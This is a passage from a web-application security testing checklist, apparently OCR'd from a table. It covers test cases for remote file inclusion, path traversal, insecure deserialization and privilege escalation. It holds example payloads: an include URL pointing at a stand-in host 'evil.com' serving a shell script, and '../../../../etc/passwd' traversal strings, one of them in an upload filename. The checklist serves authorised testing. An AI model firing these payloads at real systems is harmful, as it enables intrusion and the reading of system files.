 |        Test Case 33.2: Test for Remote File Inclusion (RFI) |
|o   Steps: |
|  Identify input fields that accept file paths.|
|  Inject payloads with external URLs (e.g., http://evil.com/shell.php).|
|  Observe if the application includes andexecutes the remote file.|
|34. Testing forPath Traversal Vulnerabilities|
| |
|        Test Case 34.1: Test for path traversal in file download functionality |
|o   Steps: |
|  Identify file download functionality.|
|  Inject payloads like ../../../../etc/passwd in the file path parameter.|
|  Observe if the application allows access torestricted files.|
|        Test Case 34.2: Test for path traversal in file upload functionality |
|o   Steps: |
|  Identify file upload functionality.|
|  Upload a file with a payload in the filename(e.g., ../../../../etc/passwd).|
|  Observe if the file is stored in anunintended directory.|
|35. Testing forInsecure Deserialization|
| |
|        Test Case 35.1: Test for insecure deserialization in JSON input |
|o   Steps: |
|  Identify functionalities that accept JSONinput.|
|  Inject malicious payloads in the JSON input(e.g., serialized objects).|
|  Observe if the application processes thedeserialized objects insecurely.|
|        Test Case 35.2: Test for insecure deserialization in serialized data |
|o   Steps: |
|  Identify functionalities that acceptserialized data (e.g., cookies, hidden fields).|
|  Inject malicious payloads in the serializeddata.|
|  Observe if the application processes thedeserialized objects insecurely.|
|36. Testing forInsufficient Authorization|
| |
|        Test Case 36.1: Test for horizontal privilege escalation |
|o   Steps: |
|  Identify functionalities that should berestricted to specific users (e.g., user profiles).|
|  Attempt to access another user'sfunctionality by modifying parameters (e.g., user ID).|
|  Observe if unauthorized access is granted.|
|        Test Case 36.2: Test for vertical privilege escalation |